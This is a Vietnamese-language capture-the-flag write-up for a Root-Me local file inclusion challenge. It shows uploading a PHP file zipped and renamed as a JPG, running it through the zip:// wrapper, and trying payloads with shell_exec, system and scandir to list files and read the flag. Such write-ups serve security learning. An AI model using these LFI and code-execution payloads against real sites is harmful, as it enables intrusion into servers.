






# [Local File Inclusion - Wrappers](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Wrappers)


Khi thử upload without source, ta nhận được message:

> "Sorry, only JPG images will be accepted. Please use a different service if you do not intend to upload pictures”

Đề bài gợi ý là Wrapper, ta chú ý đến PHP Wrapper. Dó đó thử dụng `php://filter` để get source **index.php** nhưng không khả thi:


Sử dụng data wrapper thì bị nhận diện attack còn sử dụng encode base64 thì nhận được lỗi **“page name too long”**:




Đến đây, chắc có lẽ ta cần sử dụng cổng upload này để upload command lên server, sau đó, dùng wrapper để chạy file. Ta sử dụng đến wrapper **zip://** để đọc file từ zip vì có lẽ server chặn các cổng data mất rồi:

Code `getsource.php`:
```html
<pre><?php show_source('index.php'); ?></pre>;
```

Ta đặt tên là **getsource.php**, sau đó zip file lại **getsource.zip**, rename **getsource.jpg** , sau đó upload lên server:



Chú ý đến cấu trúc URL: <http://challenge01.root-me.org/web-serveur/ch43/index.php?page=view&id=8Gjbt40un>

Lúc này, page đang load một filename có id là **8Gjbt40un** khác với image name của ta Server đã upload lên `/tmp/upload/image_id.jpg`. Sử dụng zip wrapper tuy cập đến **/tmp/upload/8Gjbt40un.jpg%23getsource**, server sẽ tự concat thêm ‘.php’ cho ta để có câu request hoàn chỉnh:

*?page=zip://tmp/upload/8Gjbt40un.jpg%23getsource**.php***



Tuy nhiên, ta lại nhận được lỗi tên quá dài. Ta cần rename lại thành t.php t.zip t.jpg, sau đó upload lại:


***Payload:** ?page=zip://tmp/upload/XoMA4xJDj.jpg%23**t.php***


Source không có thông tin gì liên quan đến password cả, giờ thì ta phải thử tìm trong folder chứ index.php vì có thể sẽ có file khác nhưng ta không Path Traversal đc:

**Payload:** `<pre><?php shell_exec('ls -la') ?></pre>;`



`shell_exec()` bị block. Ta thử với:

**Payload:** `<pre><?php system('ls -la') ?></pre>;`



`system()` cũng bị block. Ta thử với `exec()` nhưng cũng bị block:


Không còn cách nào khác, ta sử dụng `scandir()` để list all file trong director:

```php
<pre>
<?php
$path = './';
$files = scandir($path);

foreach($files as $file) {
    echo "<a href='$file'>$file</a>";
}
?>
</pre>;
```

Xong, nó list all ra được và ta có thể thấy được flag:


Đọc file flag với:

`<pre><?php show\_source('flag-mipkBswUppqwXlq9ZydO.php'); ?></pre>;`




- Flag: "****************************"
